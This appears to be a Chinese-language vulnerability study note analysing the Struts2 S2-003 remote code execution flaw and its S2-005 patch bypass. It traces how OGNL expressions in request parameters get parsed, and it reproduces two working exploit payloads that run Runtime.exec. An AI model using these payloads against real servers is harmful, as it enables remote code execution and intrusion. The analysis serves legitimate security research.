

# 漏洞概要

Struts2-003是一个远程代码执行漏洞，Struts2-005为Struts2-003补丁绕过。

影响版本： **Struts 2.0.0 - Struts 2.1.8.1** 。

# 测试环境

Struts2-003：Apache Tomcat/6.0.10+struts-2.0.1

Struts2-005：Apache Tomcat/6.0.10+struts-2.0.12

高版本tomcat会因为无法识别一些字符而复现失败

# 漏洞分析

payload:

```java
login.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

在s2-001中我们曾说到,Struts2处理用户请求时,会调用拦截器处理`ParametersInterceptor.setParameters`装载参数


然后调用acceptableName进行判断是否有非法字符("=" "," "#" ":")

然后将name和value压入栈中


进入setValue,compile方法会对name进行解析


这里的expressions是经过parseExpression处理过的,它会对字符进行解码


然后回到Ognl.setValue(),并在该方法中被解析

# 设置xwork.MethodAccessor.denyMethodExecution

解析流程目前还不是很明白,只知道个大概,这里需要对ognl表达式比较熟

在getValueBody中会会得到两个Node


ASTChain会进一步分析语法书拆分为两个Node


然后再setValueBody中,有getValue方法和setValue方法


第一次执行ASTVarRef::getValueBody,会获取到当前的context字段即OgnlContext对象上下文

第二次执行`ASTPropety::setValueBody`方法执行，进一步执行`OgnlRuntime.setProperty`,会将当前context中的`xwork.MethodAccessor.denyMethodExecution`设置为false


调用链


# 执行方法

依旧会分析先拆分为两个Node



关于为什么要设置xwork.MethodAccessor.denyMethodExecution,可以看这一段代码,如果为**false**就会执行方法否则返回null.


# 漏洞修复


引入控制静态方法调用开关 **allowStaticMethodAccess** 变量，以及用于控制成员变量的访问权限的 **SecurityMemberAccess** 类对象。然而通过 **OGNL** 表达式，我们完全可以控制这两个变量的值，这也导致 **Struts2-003** 补丁可以被绕过，即后来的 **Struts2-005** 漏洞。

```
login.action?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

Struts2 2.2.1 版本中直接加强正则匹配，限制非法字符串


# 结尾

感觉对ognl的解析流程等等还是很懂,下来准备细看一下ognl

# 参考

https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/

https://zhzhdoai.github.io/2020/12/24/Struts2%E6%BC%8F%E6%B4%9E%E7%AC%94%E8%AE%B0%E4%B9%8BS2-003/#0x01

https://xz.aliyun.com/t/7966#toc-4

https://chybeta.github.io/2018/05/08/%E3%80%90struts2-%E5%91%BD%E4%BB%A4-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E7%B3%BB%E5%88%97%E3%80%91S2-003%E5%92%8CS3-005/

https://blog.csdn.net/u011721501/article/details/41626959

https://xz.aliyun.com/t/111#toc-0


关于设置

setValueBody->getValue->evaluateGetValueBody


getValueBody->getValue->evaluateGatValueBody


getValueBody->setValue->evaluateSetValueBody->setValue


执行命令

setValueBody->getValueBody->getValueBody->getValueBody->getValueBody->callStaticMethod


for循环,接着获取方法

